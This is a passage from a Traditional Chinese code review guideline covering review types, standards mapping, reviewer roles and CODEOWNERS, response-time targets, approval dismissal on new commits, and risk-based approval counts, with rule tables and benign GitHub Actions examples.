- **AI 常見錯誤：** AI 產生的 `CONTRIBUTING.md` 常寫「至少一位審查者核准」，但沒有對應的平台設定；文件寫了不等於有執行，必須以 API 查證。

### 1.2 審查的類型與選擇

IEEE 1028-2008 定義了五種審查與稽核：管理審查（management review）、技術審查（technical review）、檢查（inspection）、走查（walk-through）與稽核（audit）。ISO/IEC 20246:2017 則把審查視為一個通用流程（規劃、啟動、個別審查、議題溝通與分析、修正與報告），並定義多種審查技術：以檢查清單為基礎（checklist-based）、以情境為基礎（scenario-based）、以觀點為基礎（perspective-based）與以角色為基礎（role-based）。

現代軟體團隊最常用的是**輕量級、以工具為基礎、非同步的程式碼審查**（Modern Code Review），也就是在 GitHub／GitLab 上的 PR／MR 審查。它不取代其他形式，而是依變更的風險選擇搭配：

| 類型 | 適用情境 | 參與者 | 產出 | 本指引章節 |
| --- | --- | --- | --- | --- |
| PR／MR 非同步審查 | 所有日常變更 | 作者＋1–2 位審查者 | 審查意見、核准紀錄 | 第 3–6 章 |
| 同步走查（walk-through） | 複雜邏輯、新人第一次提交、跨團隊介面 | 作者主導，審查者提問 | 會議紀錄、待辦 | 3.5 |
| 設計審查 | 實作前；新模組、架構變更 | 架構師、技術主管 | ADR、設計文件核准 | 7.1 |
| 正式檢查（inspection） | 安全關鍵、金流、法規要求的模組 | 主持人、記錄者、2 位以上審查者 | 缺陷清單與量測數據 | 3.5 |
| 安全審查 | 修改身分驗證、授權、加密、個資處理 | 資安人員＋領域審查者 | 安全檢查清單 | 11.8 |
| 結對程式設計（pair programming） | 高度不確定的工作 | 兩位開發者 | 程式碼 | 可降低但**不取代**非同步審查（CR-GOV-003） |
| AI 輔助審查 | 所有 PR 的第一輪篩檢 | AI 工具 | 自動意見 | 第 19 章 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GOV-003` | 必須 | 結對程式設計、AI 審查或作者自行測試都不能取代 PR／MR 審查；結對完成的變更仍須由「非結對成員」或結對夥伴在平台上核准，以留下紀錄 | 🤖 平台核准紀錄；👁 抽查 |
| `CR-GOV-004` | 應該 | 依變更風險選擇審查類型：高風險變更（見 3.4）除了 PR 審查外，應再搭配設計審查、同步走查或安全審查，並在 PR 描述記錄已完成的審查 | 👁 PR 描述與審查紀錄 |

```markdown
<!-- ✅ CR-GOV-004：高風險 PR 在描述中記錄已完成的其他審查 -->
## 審查紀錄
- 設計審查：ADR-0042「訂單取消改為非同步補償」，2026-09-30 架構會議核准
- 同步走查：2026-10-06 與 @payment-team 走查補償流程（紀錄：wiki/走查/2026-10-06）
- 安全審查：不適用（未修改身分驗證、授權、加密與個資欄位）
```

```text
❌ CR-GOV-003：以「已結對」為由跳過平台核准
PR #812 描述：「這是我和 Amy 結對寫的，Amy 已經看過了，我直接合併。」
→ 平台上沒有任何核准紀錄；稽核時無法證明有第二人確認，也違反 CR-GOV-001。
```

#### 🔍 1.2 審查與驗證

- **自動檢查：** 以附錄 C.2 的腳本列出「核准數為 0 卻已合併」的 PR／MR，結果必須為空（豁免除外）。
- **人工審查問題：**
  1. 這個變更的風險等級是什麼？（3.4 的分級）是否需要額外的設計或安全審查？
  2. 若是結對完成，核准者是否真的看過最終版本，而不只是在結對時看過部分程式碼？
- **AI 常見錯誤：** AI 產生的流程文件常把「AI 已審查」寫成可以取代人工核准的條件。依 CR-AI-002，AI 的審查結果不計入核准人數。

### 1.3 國際標準與法規對照

程式碼審查是許多標準的共同要求。下表列出各標準對審查的具體要求，以及本指引中對應的規則，供稽核與內部控制使用：

| 標準或文件 | 與審查相關的要求 | 本指引對應規則 |
| --- | --- | --- |
| IEEE 1028-2008 | 定義審查類型、角色（主持人、記錄者、審查者）、輸入輸出與進入／退出條件 | `CR-GOV-004`、`CR-PRC-001`、`CR-ROLE-001` |
| ISO/IEC 20246:2017 | 通用審查流程（規劃→啟動→個別審查→議題溝通→修正與報告）；審查技術；審查量測 | `CR-PRC-001`、`CR-REV-001`、`CR-MET-001` |
| ISO/IEC/IEEE 12207:2017 | 實作流程與驗證流程中包含同儕審查 | `CR-GOV-001` |
| ISO/IEC 25010:2023 | 產品品質特性（功能適合性、效能效率、相容性、互動能力、可靠性、安全性、可維護性、彈性、安全保障） | 第 7–16 章的檢查重點 |
| NIST SP 800-218 SSDF PW.7 | 依組織的安全寫作標準進行程式碼審查或分析，記錄並分類所有發現的問題（PW.7.1、PW.7.2） | `CR-SEC-001`、`CR-CMT-005` |
| OWASP ASVS 5.0 | V15 安全寫作與架構；要求以審查或工具驗證安全控制 | 第 11 章 |
| SLSA v1.2 Source Track | Level 4 要求「雙人審查」（two-party review）：每個變更都必須由作者以外的受信任人員審查 | `CR-GOV-001`、`CR-GH-002`、`CR-GL-002` |
| ISO/IEC 27001:2022 附錄 A | A.8.4 原始碼存取、A.8.25 安全開發生命週期、A.8.28 安全寫作、A.8.32 變更管理 | `CR-GOV-001`、`CR-GOV-005`、第 18 章 |
| 資通安全管理法與其子法 | 委外開發須依機關資通安全責任等級執行源碼檢測等安全檢測 | 第 11 章；檢測規劃見 [測試與品質保證指引]() |

> **標準的現況：** IEEE 1028-2008 在 2019 年被 IEEE 列為 Inactive-Reserved（不再維護但仍可取得），目前沒有新版；它定義的角色與審查類型仍是業界共同語言。ISO/IEC 20246:2017 在 2022 年經確認維持現行版。NIST 在 2025-12 發布 SSDF 1.2 草案（SP 800-218r1 ipd），本文以 1.1 為準，定稿後再更新對照（見附錄 F.4）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GOV-005` | 必須 | 審查紀錄（核准者、時間、意見與處理結果）必須保存在 Git 平台上，並至少保存到該版本停止支援後一年；不得只在通訊軟體或口頭完成審查 | 🤖 平台保留設定；👁 稽核抽查 |
| `CR-GOV-006` | 應該 | 每年以本節的對照表檢查一次審查控制是否仍符合適用的標準與法規，並在附錄 F 記錄結果 | 👁 年度檢查紀錄 |

```text
✅ CR-GOV-005：稽核時可以從平台還原的審查證據
PR #1024 feat(order): 新增訂單取消 API
  作者：@kevin            建立：2026-10-06 10:12
  審查：@amy  APPROVED    2026-10-06 14:40（核准的提交：9b8e7d4）
  審查：@security-bot     code scanning 0 alerts
  討論：3 則意見，3 則已解決
  合併：@kevin 2026-10-06 15:02，merge queue，CI 全部通過
```

```markdown
<!-- ✅ CR-GOV-006：年度對照檢查紀錄（記錄在附錄 F 或程式庫的 docs/code-review.md） -->
## 2026 年度審查控制對照檢查
| 標準 | 檢查結果 | 差異與行動 |
| --- | --- | --- |
| ISO/IEC 27001:2022 A.8.32 | 12 個程式庫的 main 都受 Ruleset 保護；略過紀錄 3 筆，皆有例外紀錄 | 無 |
| SLSA v1.2 Source L4（雙人審查） | 2 個程式庫的 CODEOWNERS 只有單一成員團隊 | #1140 補足團隊成員（CR-ROLE-005） |
| NIST SSDF 1.1 PW.7 | 安全議題都有標籤與負責人 | 1.2 定稿後重新對照（F.4） |
```

```text
❌ CR-GOV-005：在通訊軟體完成的「審查」
[Teams] Kevin：我改好了，可以合嗎？
[Teams] Amy：👍
→ 平台上沒有核准紀錄；訊息保存期限 90 天，稽核時已無法取得。
```

#### 🔍 1.3 審查與驗證

- **自動檢查：** GitHub Enterprise 的稽核日誌串流（audit log streaming）或 GitLab 的稽核事件串流到 SIEM，保存期限依 CR-GOV-005 設定。
- **人工審查問題：**
  1. 若明天有稽核員要求「證明這個版本的每個變更都經過第二人審查」，能在一小時內產出證據嗎？
  2. 被刪除的分支、關閉的 PR，審查紀錄是否仍可查詢？
- **AI 常見錯誤：** AI 整理標準對照表時常引用不存在的條文編號（例如把 ISO/IEC 27001:2013 的 A.14.2.x 套用到 2022 版）。條文編號必須以標準原文核對。

### 1.4 審查的範圍與限制

程式碼審查擅長找出「人才看得出來」的問題：設計是否合理、命名是否清楚、需求是否被正確理解、是否遺漏了某種情境。它**不擅長**找出機器能找到的問題：格式、型別錯誤、已知的弱點模式、相依套件的漏洞。讓人去做機器能做的事，既浪費審查時間，也會降低審查者對真正重要問題的注意力。



| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GOV-007` | 必須 | 能以工具判定的規則（格式、命名慣例、未使用的程式碼、已知弱點模式）必須由 CI 自動檢查；人工審查不得以這類問題作為主要內容 | 🤖 CI 必要檢查；👁 抽查審查意見的類型分布（22.2） |
| `CR-GOV-008` | 必須 | 審查不能取代測試：審查者核准不代表功能已被驗證，PR 仍必須通過 CI 的自動化測試，行為變更必須附有測試（第 10 章） | 🤖 必要狀態檢查；👁 程式碼審查 |

```text
❌ CR-GOV-007：審查者花時間在工具可以做的事
@amy：第 12 行縮排是 3 格，應該是 4 格。
@amy：第 40 行 import 順序不對。
@amy：第 55 行行尾多一個空白。
（同一個 PR 中沒有任何關於邏輯、設計或測試的意見）
→ 應改以 Spotless／Prettier 在 CI 自動檢查，審查者只關注人才能判斷的問題。
```

```text
❌ CR-GOV-008：以審查取代測試
PR #1015 fix: 修正退款金額計算
  M  RefundCalculator.java（+12 −4）
  （沒有任何測試的變更）
@amy APPROVED：「邏輯我看過了，應該是對的。」
→ 審查者在腦中「執行」程式碼無法取代測試；錯誤修正必須附回歸測試（CR-TST-002）。
```

```yaml
# ✅ CR-GOV-007：格式與靜態分析交給 CI（片段：GitHub Actions 的檢查步驟，完整範例見 17.2）
      - name: 格式檢查（Spotless）
        run: ./mvnw -B spotless:check
      - name: 靜態分析（Checkstyle、PMD、SpotBugs）
        run: ./mvnw -B checkstyle:check pmd:check spotbugs:check
```

（片段：只截取 steps。）

#### 🔍 1.4 審查與驗證

- **自動檢查：** 確認 CI 的必要檢查包含格式、靜態分析與測試（17.1 的品質閘門清單）。
- **人工審查問題：**
  1. 最近 20 則審查意見中，有多少是工具可以抓到的？若超過兩成，代表 CI 規則不足。
  2. PR 修改了行為，但沒有新增或修改任何測試？（CR-GOV-008）
- **AI 常見錯誤：** AI 審查工具最常產生的意見正是格式、命名與「建議加上註解」這類低價值意見。導入 AI 審查時應以設定檔（`REVIEW.md`、`copilot-instructions.md`）要求它略過 CI 已檢查的項目（19.3）。

## 2. 角色與責任

### 2.1 角色定義與責任分工

審查失效最常見的原因不是審查者能力不足，而是**責任不清**：作者以為審查者會抓到問題，審查者以為作者已經測過；三位審查者都以為另外兩位會仔細看，結果沒有人真正看過。本節定義每個角色「必須做什麼」以及「核准代表什麼」。

| 角色 | 平台上的身分 | 責任 | 核准代表的意義 |
| --- | --- | --- | --- |
| 作者（Author） | PR／MR 建立者 | 對變更的正確性負**主要責任**，包括 AI 產生的部分；準備可審查的變更（第 4 章）；回應每一則意見 | — |
| 主要審查者（Primary reviewer） | 被指派的 Reviewer | 完整閱讀整個變更；確認需求、設計、正確性與測試（第 5 章） | 「我看過全部變更，我願意和作者一起為它負責」 |
| 領域審查者（Domain reviewer） | CODEOWNERS 指定的人或團隊 | 審查自己負責的路徑（例如資料庫遷移、安全設定） | 「我負責的部分符合我們的標準」 |
| 技術主管（Tech Lead） | 一般為 Maintainer | 決定審查政策、處理爭議（第 21 章）、核准例外（0.6） | 爭議的最終決定 |
| 資安擁護者（Security Champion） | 安全路徑的 CODEOWNER | 審查安全敏感變更（11.8） | 「安全控制沒有被削弱」 |
| 合併者（Merger） | 按下合併的人，通常是作者 | 確認所有條件達成後才合併；合併後觀察部署結果 | — |
| AI 審查工具 | `copilot-pull-request-reviewer`、`@GitLabDuo`、Claude | 提供第一輪自動意見（第 19 章） | **不代表任何人的核准**（CR-AI-002） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-ROLE-001` | 必須 | 作者對變更的正確性負主要責任，不得把責任轉移給審查者或 AI：送審前必須自己讀過整個 diff、在本機或 CI 執行過測試，並能解釋每一行程式碼（包括 AI 產生的部分）的用途 | 👁 PR 描述的自我檢查清單（附錄 B.1）；👁 審查時抽問 |
| `CR-ROLE-002` | 必須 | 核准代表審查者看過**全部**變更並願意共同負責；只審查部分檔案時，必須在核准意見中寫明範圍（例如「只審查 db/ 目錄」），且不得因此減少必要的核准人數 | 👁 審查紀錄抽查 |
| `CR-ROLE-003` | 應該 | 每個 PR 指定一位主要審查者，負責完整審查與最後確認；其他審查者為領域審查者。避免「三個人都被指派、沒有人負責」 | 👁 PR 的 Reviewers 欄位與描述 |
| `CR-ROLE-004` | 不應該 | 以職位高低取代審查能力：不應由不熟悉該段程式碼的主管核准，也不應因為作者是資深人員就減少審查 | 👁 抽查核准者與變更路徑的對應 |

```markdown
<!-- ✅ CR-ROLE-002：只審查部分範圍時，在核准意見中寫明 -->
**Approve（範圍：`src/main/resources/db/migration/` 與 `OrderRepository.java`）**

我只審查了資料庫遷移與 Repository 的查詢，確認：
- V2026_10_06_1__add_cancel_reason.sql 可在線上執行，不會鎖表（已在 staging 以 200 萬筆資料測試）
- 新查詢使用 idx_order_customer_status 索引（EXPLAIN 結果附在下方）

Service 與 Controller 的邏輯請 @amy 審查。
```

```text
❌ CR-ROLE-002：沒有看完就核准
@bob APPROVED：「LGTM」
（GitHub 顯示 @bob 只開啟過 3 個檔案中的 1 個；被略過的 OrderService.java 有一個遺漏授權檢查的新方法）
```

```markdown
<!-- ✅ CR-ROLE-003：在 PR 描述中指定主要審查者與領域審查者的分工 -->
## 審查分工
- 主要審查者：@amy（完整審查，最後確認）
- 領域審查者：@dba-lee（只審查 `db/migration/`，由 CODEOWNERS 自動請求）
```

```text
❌ CR-ROLE-004：由不熟悉程式碼的主管核准
PR #1031 fix(billing): 修正跨月計費的四捨五入
  審查者：@engineering-director APPROVED「辛苦了，核准」
  （@engineering-director 過去一年沒有修改或審查過 billing 模組；團隊中熟悉計費規則的 @alice 沒有被請求審查）
```

```text
❌ CR-ROLE-001：作者把責任推給審查者與 AI
PR 描述：「這段是 Copilot 產生的，我也不太確定對不對，請大家幫忙看看。」
→ 作者必須先理解並驗證程式碼才能送審；「請審查者幫忙確認是否正確」不是審查，而是把作者的工作轉嫁出去。
```

#### 🔍 2.1 審查與驗證

- **自動檢查：** 無法以工具判斷審查深度。可以用 GitHub 的「Viewed」檔案標記或 GitLab 的檔案已檢視狀態作為輔助參考，但它們不代表真的讀過。
- **人工審查問題：**
  1. PR 描述的自我檢查清單是否勾選且屬實？作者能回答「為什麼這樣寫」嗎？
  2. 核准意見只有「LGTM」時，核准者是否真的熟悉這段程式碼？
  3. 每個 PR 是否有一位明確的主要審查者？
- **AI 常見錯誤：** AI 代理（例如 Copilot cloud agent、Claude Code）建立的 PR，作者欄位可能是機器人帳號。依 CR-AI-005，必須有一位人類「負責人」承擔作者責任。

### 2.2 審查者的資格與指派

審查者應同時具備兩種知識：**這段程式碼的領域知識**（知道它在做什麼、和誰互動），以及**相關技術的知識**（知道這個框架的陷阱）。CODEOWNERS 用來確保領域知識；技術知識則靠審查者的組合與培訓。

指派方式影響審查速度與知識分布。全部指派給同一位資深人員，會讓他成為瓶頸，也讓知識集中；完全隨機指派，則可能讓不熟悉的人審查高風險變更。建議做法是：**CODEOWNERS 決定「必須由哪個團隊核准」，團隊內再以輪值或負載平衡分配給個人**。

| 平台 | 自動指派機制 | 設定位置 |
| --- | --- | --- |
| GitHub | 團隊的 Code review assignment：Round robin（輪流）或 Load balance（依最近的審查量） | Organization → Teams → 團隊 → Settings → Code review |
| GitHub | CODEOWNERS 自動請求審查（草稿 PR 不會觸發） | `.github/CODEOWNERS` |
| GitLab | CODEOWNERS 的區段（section）與預設擁有者 | `.gitlab/CODEOWNERS` |
| GitLab | MR 的 Reviewers 欄位、核准規則中的合格核准者 | Settings → Merge requests → Merge request approvals |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-ROLE-005` | 必須 | CODEOWNERS 指定的每個團隊至少要有兩位能核准的成員，且團隊必須有程式庫的寫入權限；只有一位成員的團隊會在該成員請假時阻擋所有合併 | 🤖 附錄 C.1 的 CODEOWNERS 檢查腳本；👁 每季檢查團隊名單 |
| `CR-ROLE-006` | 應該 | 團隊內的審查指派採輪值或負載平衡，並排除當週值班、請假的成員；同一位審查者的待審 PR 不應超過 5 個 | 🤖 GitHub 團隊 Code review assignment；👁 22.2 的審查負載報表 |
| `CR-ROLE-007` | 應該 | 安全敏感路徑（身分驗證、授權、加密、秘密、CI 設定、CODEOWNERS 本身）必須由資安擁護者或指定的安全審查者核准 | 🤖 CODEOWNERS＋Require review from Code Owners；🧪 以測試 PR 修改安全路徑確認會請求安全審查者 |
| `CR-ROLE-008` | 可以 | 新進人員可以擔任「學習審查者」：參與審查並留下意見，但在完成培訓（23.2）前其核准不計入必要人數 | 👁 培訓紀錄；🤖 只把已完成培訓者加入 CODEOWNERS 團隊 |

```text
# ✅ CR-ROLE-005、CR-ROLE-007：.github/CODEOWNERS（每個團隊至少兩位成員；安全路徑由 @example/appsec 審查）
*                                   @example/order-team
/src/main/resources/db/migration/   @example/order-team @example/dba
/src/main/java/com/example/order/security/  @example/appsec
/.github/                           @example/platform-admins
/.github/CODEOWNERS                 @example/platform-admins @example/appsec
```

```text
✅ CR-ROLE-006、CR-ROLE-008：GitHub 團隊 @example/order-team 的審查指派設定
Settings → Code review → Enable auto assignment
  Number of reviewers per pull request: 1
  Routing algorithm: Load balance（依最近的審查數量分配）
  Never assign certain team members: @oncall-this-week, @new-dev（學習審查者，尚未完成 23.2 的培訓）
  Count existing members' review requests: on
→ @new-dev 仍可被手動加入審查並留下意見，但不在 CODEOWNERS 團隊中，核准不計入必要人數。
```

```text
❌ CR-ROLE-005：把個人帳號列為唯一擁有者
/src/main/java/com/example/billing/   @alice
# @alice 休假兩週期間，所有修改 billing 的 PR 都無法合併；
# 而且 @alice 自己修改 billing 時，沒有其他 CODEOWNER 能核准。
```

#### 🔍 2.2 審查與驗證

- **自動檢查：** 附錄 C.1 的 `check_codeowners.py` 會檢查語法；以 `gh api orgs/{org}/teams/{team}/members` 確認每個 CODEOWNERS 團隊至少兩位成員。GitHub 的 CODEOWNERS 錯誤可用 `gh api repos/{owner}/{repo}/codeowners/errors` 查詢。
- **人工審查問題：**
  1. CODEOWNERS 是否保護了 `.github/`（或 `.gitlab/`）目錄與 CODEOWNERS 檔案本身？
  2. 是否有人同時是大量路徑的唯一擁有者？
- **AI 常見錯誤：** AI 產生的 CODEOWNERS 常把同一路徑寫成多行（以為會「累加」擁有者），但 GitHub 只取最後一個符合的規則；或在一行中寫兩個路徑樣式（例如 `*.yml *.yaml @team`），第二個樣式會被當成擁有者而失效。詳見 18.2。

## 3. 審查流程與服務水準

### 3.1 審查生命週期

ISO/IEC 20246 把審查分為五個階段：規劃（planning）、啟動（initiate review）、個別審查（individual review）、議題溝通與分析（issue communication and analysis）、修正與報告（fixing and reporting）。在 PR／MR 審查中，這些階段對應到平台上的狀態：



| ISO/IEC 20246 階段 | PR／MR 對應 | 負責人 | 本指引章節 |
| --- | --- | --- | --- |
| 規劃 | 拆分工作、決定風險等級與審查類型 | 作者、技術主管 | 3.4、4.1 |
| 啟動 | 撰寫描述、自我審查、轉為 Ready、指派審查者 | 作者 | 4.2–4.4 |
| 個別審查 | 審查者閱讀與驗證 | 審查者 | 第 5、7–16 章 |
| 議題溝通與分析 | 意見、回覆、討論、同步走查 | 作者、審查者 | 第 6 章、3.5 |
| 修正與報告 | 修正、重新審查、核准、合併、量測 | 作者、合併者 | 3.6、第 22 章 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRC-001` | 必須 | 審查有明確的進入與退出條件。**進入**：CI 通過、描述完整、作者已自我審查。**退出（可合併）**：達到核准人數、所有阻擋性討論已解決、最新提交的 CI 全部通過、沒有未處理的「Request changes」 | 🤖 草稿狀態＋必要狀態檢查＋Require conversation resolution；👁 PR 範本勾選 |

```markdown
<!-- ✅ CR-PRC-001：PR 範本中的進入條件（作者勾選後才轉為 Ready for review） -->
## 送審前確認（進入條件）
- [ ] CI 已通過（建置、測試、靜態分析、安全掃描）
- [ ] 已填寫「變更目的」與「如何驗證」
- [ ] 已自己讀過整個 diff，移除除錯程式碼與不相關的變更
- [ ] 已標記風險等級標籤：risk:low／risk:medium／risk:high
```

```text
❌ CR-PRC-001：沒有進入條件，審查者被迫審查還沒完成的東西
14:05 PR #903 建立（非草稿），CI 失敗：3 個測試未通過
14:06 @amy 被自動請求審查
14:30 @amy 花了 25 分鐘審查，留下 6 則意見
15:10 作者推送新提交：「修正測試，順便重寫了 OrderMapper」
→ @amy 剛才的審查有一半白費；應該等 CI 通過、作者完成後再轉為 Ready。
```

#### 🔍 3.1 審查與驗證

- **自動檢查：** 開啟「Require conversation resolution before merging」（GitHub）或「All threads must be resolved」（GitLab）；必要狀態檢查涵蓋 17.1 的品質閘門。
- **人工審查問題：**
  1. 收到審查請求時，CI 是否已通過？若否，先請作者轉回草稿。
  2. 被標為「已解決」的討論，問題是否真的被處理，還是只是被按下 Resolve？
- **AI 常見錯誤：** AI 代理常在 CI 尚未完成時就請求審查，或在收到意見後自行把討論標為已解決。合併前應確認每個被解決的討論都有對應的修正提交或說明。

### 3.2 回應時限與服務水準

審查延遲的成本比看起來高：作者等待時會切換到其他工作，回來處理意見時需要重新理解上下文；等待越久，PR 越容易與主幹衝突，也越容易累積成更大的 PR。Google 的工程實務把**一個工作天**定為回應審查請求的上限，並強調這是「第一次回應」的時限，不是「完成審查」的時限。

| 指標 | 目標 | 上限 | 超過上限時 |
| --- | --- | --- | --- |
| 第一次回應（留下意見、核准或說明何時能看） | 4 個工作小時內 | 1 個工作天 | 自動提醒；再超過 1 天由技術主管重新指派 |
| 作者回應意見 | 1 個工作天內 | 2 個工作天 | 提醒作者；作者無法處理時轉為草稿 |
| 從 Ready 到合併 | 2 個工作天內 | 5 個工作天 | 每日站會檢視；超過 10 天未更新的 PR 關閉或拆分 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRC-002` | 必須 | 審查者必須在 1 個工作天內對審查請求做出第一次回應：完成審查、留下部分意見，或說明預計何時能完成；無法在期限內審查時必須主動請其他人代理 | 🤖 附錄 C.3 的提醒工作；🤖 22.2 的首次回應時間報表 |
| `CR-PRC-003` | 應該 | 超過 10 個工作天沒有任何更新的 PR／MR 應由作者關閉或拆分；長期未合併的分支會累積衝突並失去審查價值 | 🤖 GitHub `actions/stale`／GitLab 排程工作 |

```yaml
# ✅ CR-PRC-002：每個工作日 09:00（台北時間）提醒超過 1 個工作天未回應的 PR（完整版見附錄 C.3）
name: review-reminder
on:
  schedule:
    - cron: "0 1 * * 1-5"   # UTC 01:00 = 台北 09:00
  workflow_dispatch:
permissions:
  pull-requests: read
  contents: read
jobs:
  remind:
    runs-on: ubuntu-latest
    steps:
      - name: 列出等待審查超過 24 小時的 PR
        env:
          GH_TOKEN: ${{ github.token }}
          REPO: ${{ github.repository }}
        run: |
          gh pr list --repo "$REPO" --state open --search "draft:false review:required" \
            --json number,title,url,updatedAt \
            --jq '.[] | select((now - (.updatedAt | fromdateiso8601)) > 86400) | "#\(.number) \(.title) \(.url)"' \
            > stale.txt
          if [ -s stale.txt ]; then
            echo "### 等待審查超過 1 個工作天的 PR" >> "$GITHUB_STEP_SUMMARY"
            sed 's/^/- /' stale.txt >> "$GITHUB_STEP_SUMMARY"
          fi
```

```yaml
# ✅ CR-PRC-003：以 actions/stale 標示 10 個工作天沒有更新的 PR，再 4 天後關閉；草稿與標記 keep-open 的 PR 除外
name: stale-pr
on:
  schedule:
    - cron: "0 2 * * 1-5"
permissions:
  pull-requests: write
jobs:
  stale:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/stale@4391f3da665fdf50b6810c1a66712fb9ba21aa93 # v11.0.0
        with:
          days-before-issue-stale: -1
          days-before-issue-close: -1
          days-before-pr-stale: 14
          days-before-pr-close: 4
          exempt-draft-pr: true
          exempt-pr-labels: keep-open
          stale-pr-label: stale
          stale-pr-message: "這個 PR 已超過 10 個工作天沒有更新（CR-PRC-003）。請合併、拆分或關閉；需要保留請加上 keep-open 標籤。"
```

（`days-before-pr-stale` 以日曆天計算，14 天約等於 10 個工作天。）

```text
❌ CR-PRC-002：審查請求放了三天沒有任何回應
Mon 10:00 PR #921 請求 @bob 審查
Tue      （@bob 沒有回應）
Wed      （@bob 沒有回應；作者已開始在 #921 的分支上疊加第二個功能）
Thu 16:00 @bob：「這個 PR 太大了，可以拆開嗎？」
→ 若 @bob 在週一就回應「我週三才有空，請 @amy 代理」，作者就不會繼續擴大 PR。
```

#### 🔍 3.2 審查與驗證

- **自動檢查：** 以 22.2 的報表追蹤首次回應時間的第 50 與第 90 百分位數；第 90 百分位數超過 1 個工作天時，檢視審查負載是否集中在少數人。
- **人工審查問題：**
  1. 延遲是因為 PR 太大、審查者太少，還是優先順序不清楚？
  2. 提醒是否變成「噪音」而被忽略？
- **AI 常見錯誤：** AI 產生的提醒腳本常用 `created_at`（建立時間）計算等待時間，而不是「轉為 Ready 的時間」或「最後一次請求審查的時間」，導致草稿期間也被計入；也常忽略週末與假日。

### 3.3 審查輪次與核准失效

作者在核准後推送新的提交，是審查控制最常見的漏洞：審查者核准的是第 1 版，被合併的是第 3 版。SLSA v1.2 Source Track 第 4 級（Two-party review）也明確要求：受保護分支的變更必須由兩位以上受信任的人同意，而且同意的必須是**最終提交的版本**。GitHub 與 GitLab 都提供「新提交使核准失效」的設定；GitHub 另外提供「最後一次推送必須由其他人核准」（require approval of the most recent reviewable push），適合多人共同修改的 PR。

| 平台 | 設定 | 效果 |
| --- | --- | --- |
| GitHub | Dismiss stale pull request approvals when new commits are pushed | diff 改變時，先前的核准失效 |
| GitHub | Require approval of the most recent reviewable push | 最後推送者以外的人必須核准最新版本 |
| GitLab | Remove all approvals when commits are added to the source branch | 新提交使所有核准失效 |
| GitLab | Remove approvals by Code Owners if their files changed | 只有 CODEOWNER 負責的檔案改變時才使其核准失效 |
| GitLab | Prevent approvals by users who add commits | 曾經推送提交的人不能核准 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRC-005` | 必須 | 核准後的新提交必須使核准失效，或要求最後推送者以外的人重新核准；不得出現「核准第 1 版、合併第 3 版」的情況 | 🤖 GitHub「Dismiss stale approvals」或「Require approval of the most recent reviewable push」／GitLab「Remove all approvals when commits are added」；🧪 核准後推送新提交，確認無法合併 |
| `CR-PRC-006` | 應該 | 審查往返超過三輪仍未收斂時，應改為同步討論（3.5），並在 PR 記錄結論 | 👁 PR 討論紀錄 |

```text
❌ CR-PRC-005：核准後才加入的提交沒有被審查
10:00 @amy APPROVED（審查的是提交 a1b2c3）
10:20 作者推送 d4e5f6：「順便修一下 SecurityConfig」
      → 修改內容：.requestMatchers("/admin/**").permitAll()
10:25 作者合併（平台未設定核准失效，@amy 的核准仍有效）
```

```text
✅ CR-PRC-005：開啟「核准失效」後的同一情境
10:00 @amy APPROVED（a1b2c3）
10:20 作者推送 d4e5f6
      → GitHub：「1 approval dismissed as stale」，合併按鈕變為不可用
10:40 @amy 審查 d4e5f6，留下阻擋性意見：/admin/** 不得 permitAll（CR-SEC-004）
```

```text
✅ CR-PRC-006：往返三輪仍未收斂，改為同步討論
Round 1 @amy：issue (blocking) 退款應該在交易外呼叫
Round 2 @kevin：改用 @Async，但交易仍可能回滾
Round 3 @amy：@Async 無法保證交易提交後才執行
@amy：我們已經來回三輪了，今天 14:00 通話 15 分鐘？結論我會寫回這裡（CR-PRC-008）。
```

#### 🔍 3.3 審查與驗證

- **自動檢查：** `gh api repos/{owner}/{repo}/rulesets/{id}` 的 `pull_request` 規則中 `dismiss_stale_reviews_on_push` 或 `require_last_push_approval` 必須為 `true`；GitLab 以 `glab api projects/:id/approvals` 確認 `reset_approvals_on_push` 為 `true`。
- **人工審查問題：**
  1. 重新審查時，只看「自上次審查以來的變更」（GitHub 的 Changes since last review、GitLab 的 Compare versions）是否足夠？若作者做了 rebase，增量比對可能失真，應重看整體。
  2. 「Update branch」造成的核准失效是否讓團隊困擾？可改用「Require approval of the most recent reviewable push」搭配 merge queue。
- **AI 常見錯誤：** AI 代理在收到意見後常「順便」重構其他程式碼或修改不相關的檔案，使重新審查的範圍擴大。要求 AI 只修改與意見相關的部分，並在回覆中列出修改的檔案。

### 3.4 風險分級與核准人數

不是所有變更都需要同等的審查力道。修正錯字與修改授權邏輯如果用同一套流程，不是讓低風險變更等太久，就是讓高風險變更審查不足。本指引以三級風險決定核准人數與審查類型：

| 風險等級 | 判定條件（符合任一項即屬該級） | 核准人數 | 額外要求 |
| --- | --- | --- | --- |
| **低**（risk:low） | 文件、註解、測試資料；不影響執行行為的重構；相依套件的修補版本（patch）更新且 CI 通過 | 1 | — |
| **中**（risk:medium） | 一般功能新增或修改；非破壞性的 API 新增；可向後相容的資料庫遷移 | 1（含 CODEOWNER） | 行為變更需附測試（第 10 章） |
| **高**（risk:high） | 身分驗證、授權、加密、秘密、個資處理；金額計算；破壞性的 API 或資料庫變更；CI／CD 與分支保護設定；CODEOWNERS；相依套件的主要版本（major）升級 | 2（其中至少 1 位 CODEOWNER 或領域專家） | 安全審查（11.8）或設計審查（7.1）；回滾計畫（20.1） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRC-004` | 必須 | 高風險變更必須至少有兩位作者以外的人核准，其中至少一位是該路徑的 CODEOWNER 或領域專家；高風險路徑應以 CODEOWNERS 或核准規則強制執行，而不是只靠標籤 | 🤖 GitHub Ruleset 的 Required reviewers（依檔案樣式指定團隊與核准數）／GitLab CODEOWNERS `[Section][2]`；🧪 測試 PR 確認只有一位核准時無法合併 |
